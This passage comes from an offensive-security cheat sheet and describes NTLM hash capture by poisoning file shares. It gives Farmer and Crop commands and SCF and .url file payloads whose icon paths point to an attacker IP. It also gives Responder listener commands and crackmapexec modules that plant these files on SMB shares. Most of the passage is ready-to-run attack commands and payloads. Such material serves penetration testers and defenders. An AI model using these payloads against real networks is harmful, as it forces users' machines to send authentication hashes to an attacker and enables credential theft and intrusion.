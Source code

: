 Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```ps1
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```

#### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```powershell
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Using [`crackmapexec`](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/slinky.py):

```ps1
crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
```

#### URL Files

This attack also works with `.url` files and `responder -I eth0 -v`.

```powershell
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

#### Windows Library Files 

> Windows Library Files (.library-ms)
